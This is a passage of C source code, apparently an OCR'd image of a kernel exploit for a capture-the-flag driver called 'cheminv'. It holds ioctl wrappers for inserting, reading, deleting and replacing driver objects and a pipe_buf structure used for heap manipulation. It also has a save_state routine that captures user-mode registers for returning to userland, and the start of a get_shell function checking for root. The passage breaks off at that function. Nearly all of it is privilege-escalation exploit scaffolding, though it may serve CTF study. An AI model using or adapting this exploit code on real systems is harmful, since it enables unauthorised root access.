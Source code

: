 ```c
  size_t steal;
  size_t get;
};

struct pipe_buf {
  void *page;
  unsigned int offset, len;
  struct pipe_buf_ops *ops;
  unsigned int flags;
  unsigned long private;
};

// read user_1 and user_2 from idx
int chem_read(size_t idx, void* note, void* name) {
  args.idx = idx;
  args.note = note;
  args.name = name;
  return ioctl(cheminv, READ, &args);
}

int chem_delete(size_t idx) {
  args.idx = idx;
  return ioctl(cheminv, DELETE, &args);
}

// insert new chemical and update chemical tail
int chem_insert(size_t unknown_1, size_t unknown_2, size_t size, void* note, void* name) {
  args.unknown_1 = unknown_1;
  args.unknown_2 = unknown_2;
  args.size = size;
  args.note = note;
  args.name = name;
  return ioctl(cheminv, INSERT, &args);
}

// copy chemical from idx, update unknown_1, unknown_2 and size, keep idx, user_1 the same
// and insert at tail
int chem_replace(size_t unknown_1, size_t unknown_2, size_t idx, size_t size, void* note, void* name) {
  args.unknown_1 = unknown_1;
  args.unknown_2 = unknown_2;
  args.idx = idx;
  args.size = size;
  args.note = note;
  args.name = name;
  return ioctl(cheminv, REPLACE, &args);
}

size_t user_cs, user_ss, user_sp, user_rflags;
void save_state() {
  __asm__(
      ".intel_syntax noprefix;"
      "mov user_cs, cs;"
      "mov user_ss, ss;"
      "mov user_sp, rsp;"
      "pushf;"
      "pop user_rflags;"
      ".att_syntax;"
  );
}

void get_shell() {
  if (getuid() == 0) {
```